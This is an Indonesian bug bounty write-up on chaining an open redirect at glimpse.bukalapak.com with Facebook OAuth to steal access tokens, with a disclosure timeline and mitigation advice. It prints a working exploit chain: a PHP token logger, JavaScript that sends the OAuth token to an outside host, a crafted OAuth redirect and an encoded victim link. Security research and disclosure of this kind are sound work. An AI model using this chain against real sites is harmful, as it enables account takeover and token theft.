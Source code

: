 ```yaml
---
title: Open redirect -> Account Takeover pada bukalapak.com
date: 2020-07-14 01:38:00 +0000
modified: 2020-07-14
description: "Escalating Open Redirect into Account Takeover pada Bukalapak.com"
comments: true
tags:
- bukalapak
mathjax: false
category:
- Bugbounty
private: false

---
```

### Open Redirect  

Open Redirect adalah kerentanan dimana aplikasi menerima input dari pengguna yang akan digunakan untuk perpindahan halaman atau redirect pada aplikasi dan biasanya input tersebut tidak mempunyai filter atau dapat dibypass, input dari user yang akan di gunakan sebagai redirect tersebut yang menyebabkan penyalahgunaan fitur tersebut.

### Account Takeover 

Account Takeover adalah mengambil alih akses akun orang lain sama seperti artinya secara harviah, untuk melakukan account takeover kita dapat menggunakan berbagai macam cara, salah satunya adalah yang akan dijelaskan pada report ini yaitu menggabungkan kerentanan *Open Redirect* dengan *Oauth Authentication* untuk mendapatkan *token* dari akun orang lain, sehingga dapat mengambil alih akses terhadap akun yang dimiliki orang lain.  

###  Kesimpulan Masalah   

Open redirect yang ditemukan ada pada domain glimpse.bukalapak.com dengan parameter link, contoh open redirect nya adalah : [https://glimpse.bukalapak.com/redirect?link=https://evil.com](https://glimpse.bukalapak.com/redirect?link=https://evil.com "https://glimpse.bukalapak.com/redirect?link=https://evil.com") tapi karena bukalapak tidak menerima *Open Redirect* yang meliki impact keamanan yang kecil, maka saya harus mencari cara untuk memanfaatkan celah yang ada untuk mendapatkan celah yang mempunyai impact lebih besar dari pada sekedar *Open Redirect*.  

![Bukalapak Details](/images/bukalapak/redir.PNG)

saya mencoba memanfaatkan kelemahan tersebut(open redirect) agar bisa meningkatkan tingkat resikonya dengan *oauth authentication* (facebook/google) dan dapat melakukan *account takeover*. 

fitur login dengan facebook yang berada di url berikut:   

    https://www.facebook.com/v3.0/dialog/oauth?client_id=727108917352926&redirect_uri
    =https%3A%2F%2Fctfs.me&response_type=token

Oauth facebook memiliki 3 parameter yang seharusnya ada para requestnya yaitu **client_id** dimana **727108917352926** adalah ID milik aplikasi bukalapak di facebook , kemudian **redirect_uri** adalah url yang akan menerima callback dari facebook **Yang hanya bisa di arahkan kepada domain milik bukalapak yaitu \*.bukalapak.com** , karena kita sudah memiliki open redirect maka attack scenario ini dapat mudah dijalankan, jika kita menggunakan domain selain bukalapak sebagai **redirect_uri** nya maka kita akan mendapatkan error berikut :   

![Error FB Oauth](/images/bukalapak/error.PNG)

Skenario yang saya buat untuk melancarkan attack ini adalah sebagai berikut :   

![Skenario](/images/bukalapak/skenario.PNG)

saya menggunakan 3 file berikut untuk mendapatkan token dari user, tanpa adanya user interaction sama sekali hingga tokennya tersimpan di dalam log yang saya persiapkan.   

```
    //file save.php
    <?php
    $file = fopen("token_facebook_log.txt","a");
    fwrite($file,@$_GET['data']."\n");
    fclose($file);
    ?>
```    

```
    //file steal.html
    <h2> 😈😈😈</h2>
    <script>
     let token = window.location.hash.substring(1);
     //alert("YOUR TOKEN IS MINE: "+token);
     const Http = new XMLHttpRequest();
     const url='https://security.ctfs.me/save.php?data='+token;
     Http.open("GET", url);
     Http.send();
     Http.onreadystatechange=(e)=>{
     console.log(Http.responseText)
     }
    </script>
    <meta http-equiv="refresh" content="1; url=https://bukalapak.com" />
```

```
    //file trusted.php
    <?php
    header("Location:
    https://www.facebook.com/v3.0/dialog/oauth?client_id=727108917352926&redirect_uri
    =https%3A%2F%2Fglimpse.bukalapak.com%2Fredirect%3Flink%3Dhttps://security.ctfs.me
    /steal.html&response_type=token&scope=email%2C+groups_access_member_info%2C+p
    ublish_to_groups%2C+user_age_range%2C+user_birthday%2C+user_events%2C+user_fri
    ends%2C+user_gender%2C+user_hometown%2C+user_likes%2C+user_link%2C+user_loca
    tion%2C+user_photos%2C+user_posts%2C+user_tagged_places%2C+user_videos%2C+pu
    blish_actions%2C+manage_pages%2C+instagram_basic");
    ?>
```

Untuk validasi token yang kita dapatkan ke facebook bisa menggunakan [https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2](https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2 "https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2"), dan ternyata ketika user tersebut menggunakan Mobile Apps Bukalapak token yang di grant mempunyai waktu expired **NEVER** yang berarti hanya perlu 1x mengambil token dari korban dan attacker dapat login menggunakan token tersebut kapanpun(**NEVER**).

![FB Debug](/images/bukalapak/debug.PNG)  

    // Final Payload ( untuk di-kirimkan kepada korban )
    https://glimpse.bukalapak.com/redirect?link=%68%74%74%70%73%3a%2f%2f%73%65%6
    3%75%72%69%74%79%2e%63%74%66%73%2e%6d%65%2f%74%72%75%73%74%65%64
    %2e%70%68%70

User tidak diperlukan melakukan apapun **jika sudah terauthentikasi bukalapaknya dengan facebook** (jika belum maka aplikasi bukalapak akan meminta izin ke facebook) dan kemudian token user tersebut akan dikirim kepada log attacker.


### Video POC

<iframe width="560" height="315" src="https://www.youtube.com/embed/CR3Uyw7ydhg" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

### Timeline

**Sent Report to security@bukalapak.com:** Jan 17, 2019, 12:49 AM
**Bukalapak Response(Verify):** Jan 17, 2019, 11:43 AM
**Bukalapak Response(Known Issue):** Jan 18, 2019, 2:34 PM
**Publish Writeup:** Jul 14, 2020 9:00 PM


### Saran

Untuk mitigasi celah keamanan ini bisa dengan menerapkan whitelist terhadap redirect yang ada pada glimpse.bukalapak.com atau merubah konfigurasi aplikasi facebook-nya agar hanya menerima domain tertentu saja untuk menerima callback token dari oauth, jangan menggunakan wildcard **\*.bukalapak.com** karena bukalapak yang memiliki banyak domain dan asset dibelakang domain tersebut jadi akan sulit untuk memastikan semua asset tidak memiliki kerentanan seperti *open redirect*.
